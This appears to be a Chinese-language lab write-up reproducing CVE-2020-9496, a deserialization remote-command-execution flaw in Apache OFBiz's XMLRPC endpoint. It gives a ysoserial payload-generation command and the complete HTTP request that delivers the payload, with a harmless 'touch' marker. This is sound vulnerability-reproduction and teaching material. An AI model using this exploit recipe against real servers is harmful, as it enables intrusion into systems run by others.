



# Apache OfBiz 反序列化命令执行漏洞CVE-2020-9496

## 漏洞描述

Apache OFBiz是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。 OFBiz最主要的特点是OFBiz提供了一整套的开发基于Java的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

其17.12.04版本之前的XMLRPC接口存在一处反序列化漏洞，攻击者利用这个漏洞可以在目标服务器上执行任意命令。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz
- https://github.com/dwisiswant0/CVE-2020-9496
- https://www.cnblogs.com/ph4nt0mer/p/13576739.html

## 环境搭建

Vulhub执行如下命令启动一个Apache OfBiz 17.12.01版本：

```
docker-compose up -d
```

在等待数分钟后，访问`https://your-ip:8443/myportal/control/main`查看到登录页面，说明环境已启动成功。



## 漏洞复现

由于默认情况下没有报错信息，所以使用[参考链接2](https://github.com/dwisiswant0/CVE-2020-9496)中给出的方法无法正确判断漏洞是否存在，还是需要通过执行反序列化来复现漏洞。

使用[ysoserial](https://github.com/frohoff/ysoserial)的CommonsBeanutils1来生成Payload：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "touch /tmp/awesome_poc" | base64 | tr -d "\n"
```



将base64后的payload替换并发送如下数据包：

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```



进入容器中，可见`touch /tmp/awesome_poc`已成功执行：


